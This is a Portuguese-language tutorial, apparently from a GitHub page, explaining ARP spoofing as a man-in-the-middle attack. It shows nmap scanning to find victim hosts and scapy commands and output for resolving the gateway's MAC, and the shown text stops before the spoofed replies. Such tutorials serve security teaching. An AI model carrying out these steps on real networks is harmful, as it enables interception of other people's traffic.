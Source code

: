 Com isso em mãos, o atacante realiza _broadcasts_ para descobrir os respectivos MACs daqueles IPs e, no momento em que as ARP caches forem atualizadas, ele irá mandar um "replies safados", sobrepondo os MACs do gateway e da vítima com o seu no lugar.

Nesse momento, as comunicações serão entre gateway e invasor e entre vítima e invasor. Para se manter em anonimato, o invasor redireciona os pacotes que recebe, fechando a comunicação original.
### O ataque na prática
Para realizar o ataque, usaremos duas ferramentas, principalmente: o nmap e o scapy
#### Nmap
É um programa que realiza _port scan_, descobrindo hosts e serviços em uma rede.
#### Scapy
Scapy é uma ferramenta que permite ao usuário enviar, sniffar, dissecar e forjar pacotes.
##### Instalação
```
$ git clone https://github.com/secdev/scapy.git
$ cd scapy
$ sudo python3 setup.py install
```
ou
```
$ sudo pacman -S python3-scapy
```
#### O ataque
- Passo 0: identificar hosts (vítimas) na rede
```
$ sudo nmap 192.168.1.0/24 -sC
```
Supondo que o atacante tenha achado o host `192.168.1.101`
- Iniciando o Scapy
```
$ scapy
```
- 1º passo: Identificar o MAC Address da vítima e do default gateway
- Solução: arp request e arp reply
- Default gateway:
```
>>> arprequest1 = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst = "192.168.1.1")
>>> arprequest1.show()
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 28:56:5a:49:ff:67
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 28:56:5a:49:ff:67
     psrc= 192.168.1.103
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.1.1

>>> arpreply1 = srp(arprequest1)
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> arpreply1[0][0][1]
(<<Ether  dst=28:56:5a:49:ff:67 src=c4:e9:84:9a:14:16 type=ARP |<ARP
hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=is-at hwsrc=c4:e9:84:9a:14:16
psrc=192.168.1.1 hwdst=28:56:5a:49:ff:67 pdst=192.168.1.103 |>>)
```